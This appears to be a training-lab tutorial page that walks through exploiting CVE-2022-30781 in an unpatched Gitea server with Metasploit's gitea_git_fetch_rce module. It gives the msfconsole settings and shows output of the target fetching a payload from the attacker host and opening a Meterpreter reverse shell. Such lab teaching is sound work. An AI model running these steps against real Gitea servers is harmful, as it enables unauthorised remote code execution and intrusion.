



+++
title = "Unpatched Gitea"
weight = 1
+++

## 1. Searching Metasploit
Start up your *msfconsole* and search for the Gitea exploit.
`search gitea`

You will recall that your target Gitea server is potentially vulnerable to *CVE-2022-30781* and that the remediation commit in Github 
references escaping the git fetch remote URL.  In this case we're interested in option *#0*.  Load up this exploit module with either:

`use 0`

`use exploit/multi/http/gitea_git_fetch_rce`

## 2. Attempting the exploit
Typing *show options* tells us we need to set a couple of options

* **RHOSTS** - Our target IP address
* **LHOST**  - The IP of our attacking machine
* **USERNAME** - Presumably Gitea credentials
* **PASSWORD** - Presumably Gitea credentials

Setting values within *msfconsole* is really straight forward.

 * `set RHOSTS 192.168.0.105`
 * `set LHOST 192.168.0.103`
 * `set USERNAME guest`
 * `set PASSWORD guest`
 * `set SRVPORT 8181` - The port on our machine we'll tell Gitea to connect to
 * `set ForceExploit true` - Ignores whatever the *check* module returns
 * `run` - Try the exploit

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) > 
```

## 3. Creating a user
It looks like our exploit will require valid credentials to Gitea.  Check if the server allows account creation.


It looks like we can create a new user account!


Now head back to your *msfconsole* and set the *USERNAME* and *PASSWORD* for the user account you just created and try the exploit again.

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500

meterpreter > 
```

## 4. Meterpreter basics

*TODO*
 * List running processes
 * Upload/Download ifles
 * get a raw command shell
 * meterpreter modules
